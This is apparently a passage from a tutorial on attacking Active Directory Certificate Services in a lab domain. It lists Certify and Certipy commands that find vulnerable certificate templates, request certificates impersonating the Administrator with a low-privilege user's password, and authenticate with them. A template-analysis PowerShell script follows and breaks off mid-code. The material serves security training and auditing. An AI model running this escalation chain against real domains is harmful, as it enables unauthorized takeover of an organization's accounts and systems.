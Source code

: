 #### **Certify.exe Commands**
```cmd
# Basic enumeration
Certify.exe cas                                # List all certificate authorities
Certify.exe cas /enrolleeSuppliesSubject       # Find templates with subject control
Certify.exe cas /clientAuth                    # Find templates with client auth EKU

# Template discovery
Certify.exe find /enrolleeSuppliesSubject      # Find ESC1/ESC2 vulnerable templates
Certify.exe find /clientAuth                   # Find client authentication templates
Certify.exe find /enrollmentAgent              # Find enrollment agent templates
Certify.exe find /vulnerable                   # Find all vulnerable templates

# Certificate requests
Certify.exe request /ca:CA01.cybercorp.local /template:User /subject:CN=Administrator
Certify.exe request /ca:CA01.cybercorp.local /template:User /altname:administrator@cybercorp.local
Certify.exe request /ca:CA01.cybercorp.local /template:User /export
```

**Command Explanations:**
- **`Certify.exe cas`**: Lists all CAs in the domain
- **`Certify.exe find /enrolleeSuppliesSubject`**: Discovers templates vulnerable to ESC1/ESC2
- **`Certify.exe request`**: Requests certificates with custom subjects or SANs

#### **Certipy Commands**
```bash
# Template enumeration
certipy find -u 'user@cybercorp.local' -p 'Password123!' -dc-ip 10.0.0.10
certipy find -u 'user@cybercorp.local' -p 'Password123!' -dc-ip 10.0.0.10 -vulnerable

# Certificate requests
certipy req -u 'user@cybercorp.local' -p 'Password123!' -target 'ca01.cybercorp.local' -template 'User'
certipy req -u 'user@cybercorp.local' -p 'Password123!' -target 'ca01.cybercorp.local' -template 'User' -upn 'administrator@cybercorp.local'

# Certificate authentication
certipy auth -pfx admin.pfx -dc-ip 10.0.0.10 -username 'Administrator' -domain 'cybercorp.local' -no-pass
```

**Command Explanations:**
- **`certipy find`**: Enumerates templates and identifies vulnerabilities
- **`certipy req`**: Requests certificates from vulnerable templates
- **`certipy auth`**: Uses certificates for PKINIT authentication

### **5. Advanced AD CS Analysis Commands**

#### **Template Security Deep Dive**
```powershell
# Comprehensive template analysis
Get-DomainObject -LDAPFilter "(objectClass=pKICertificateTemplate)" -Properties * | ForEach-Object {
    $template = $_
    $enrollmentFlags = $template.'msPKI-Enrollment-Flag'
    $subjectFlags = $template.'msPKI-Subject-Name-Flag'
    $privateKeyFlags = $template.'msPKI-Private-Key-Flag'
    
    Write-Host "Template: $($template.displayName)" -ForegroundColor Cyan
    Write-Host "  Enrollment Flags: $enrollmentFlags"
    Write-Host "  Subject Flags: $subjectFlags"
    Write-Host "  Private Key Flags: $privateKeyFlags"
    
    # Check for specific vulnerabilities
    if ($enrollmentFlags -band 0x00000002) {
```